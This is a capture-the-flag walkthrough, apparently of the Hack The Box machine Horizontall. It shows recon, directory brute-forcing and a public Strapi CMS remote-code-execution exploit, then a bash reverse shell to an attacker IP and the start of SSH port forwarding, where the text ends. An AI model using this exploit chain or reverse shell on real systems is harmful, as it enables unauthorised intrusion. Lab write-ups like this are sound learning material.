 ### Recon

Initiating reconnaissance

```
sudo nmap -sC -sV 10.10.11.105
```

With the following results:

```
Nmap scan report for 10.10.11.105
Host is up (0.25s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 ee:77:41:43:d4:82:bd:3e:6e:6e:50:cd:ff:6b:0d:d5 (RSA)
|   256 3a:d5:89:d5:da:95:59:d9:df:01:68:37:ca:d5:10:b0 (ECDSA)
|_  256 4a:00:04:b4:9d:29:e7:af:37:16:1b:4f:80:2d:98:94 (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-title: Did not follow redirect to http://horizontall.htb
|_http-server-header: nginx/1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

The Nmap output reveals just ports open. On port 22 SSH is running and on port 80 an Nginx web server.
Since we have no credentials to try logging in with SSH we turn our attention to port 80. Nmap didn't follow a redirect to http://horizontall.htb upon making a request on port 80. Let's modify our hosts file to include horizontall.htb .

```
echo "10.10.11.105 horizontall.htb" | sudo tee -a /etc/hosts
```

### Enumeration

The website itself doesn't have many functionalities. In fact none of the buttons work and those that do
work redirect to the homepage.
Inspecting the requests made upon visitng the website we see some interesting Javascript files. It seems that the website is a "Single Page Application (SPA)" that was made using Vue Js. 
After using an online Javascript beautifier to make the contents of app.c68eb462.js more readable, a new vhost is discovered. We should modify our hosts file once again.

```
echo "10.10.11.105 api-prod.horizontall.htb" | sudo tee -a /etc/hosts
```

Since browsing to http://api-prod.horizontall.htb reveals a simple Welcome we could use Gobuster to bruteforce any available directories.

```
gobuster dir -u http://api-prod.horizontall.htb -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt -o gobuster -t 50
```

With the following results:

```
/admin                (Status: 200) [Size: 854]
/Admin                (Status: 200) [Size: 854]
/reviews              (Status: 200) [Size: 507]
/users                (Status: 403) [Size: 60]
/.                    (Status: 200) [Size: 413]
/ADMIN                (Status: 200) [Size: 854]
/Users                (Status: 403) [Size: 60]
/Reviews              (Status: 200) [Size: 507]
```

The /admin directory seems like the most promising. Upon visiting http://api-
prod.horizontall.htb/admin we are presented with the administrator panel for Strapi 
According to the official webpage, Strapi is an open source Node.js Headless CMS.

### Exploitation

Using Searchsploit on our local machine to search for possible exploits for the Strapi CMS we are presented with a few options.
According to the exploit titles, version 3.0.0-beta.17.4 of Strapi CMS is vulnerable to Remote Code Execution (RCE), without being authenticated, in the administrator panel. Since we do not have any credential to try on the administrator panel we should find out if the version on the remote machine matches the one on the exploit.
We should copy the exploit script on our local folder using the command 'searchsploit -m 50239.py' and take a closer look on the source code.
Inside the script there is a function called check_version() that makes a request to /admin/init to check if the remote instance of Strapi is vulnerable to this exploit. We could visit this endpoint to verify manually if we can use this exploit.

strapiVersion	"3.0.0-beta.17.4"

The version matches the one that the exploit needs to work so execute the script to get a shell:
```
python3 50239.py http://api-prod.horizontall.htb
```

The exploit worked, but we can't be certain because we are informed that this is a blind RCE so we can't have any output to our commands. We could try to get a proper reverse shell. First, we set up a listener on our local machine.
```
nc -lnvp 9001
listening on [any] 9001 ...
```

Then, we send a bash reverse shell command through the exploit script:
```
bash -c 'bash -i >& /dev/tcp/10.10.14.4/9001 0>&1'
```

And it works:
```
strapi@horizontall:~/myapi$ pwd
pwd
/opt/strapi/myapi
```

It is worth noting that the exploit used relies on two seperate CVEs. The first one, CVE-2019-18818, allows
attackers to reset the Administrator's password. Then, after authenticating to Strapi the CVE-2019-19609
can be leveraged to gain remote code execution.

# Privilege Escalation

Our next step would be to look for services listening only on localhost, meaning that our initial Nmap scan would not be able to discover.
```
ss -alnp | grep "127.0.0.1"
```
The port 3306 is the default port for MySQL . That leaves us with two not common ports, port 1337 and 8000 . We can use Curl to see what services are running on these two ports.

Port 8000:
Laravel v8 (PHP v7.4.18)

On port 1337 it seems that we have the Strapi CMS page with the single Welcome. message. On port 8000 , though, we have Laravel framework. Our external enumeration did not reveal any information about the Laravel framework on the machine, so we should investigate this finding further.

Using SSH tunneling we can forward a local port to localhost:8000 on the remote machine.
```
ssh -i strapi -L 8000:localhost:8000 strapi@horizontall.htb
```






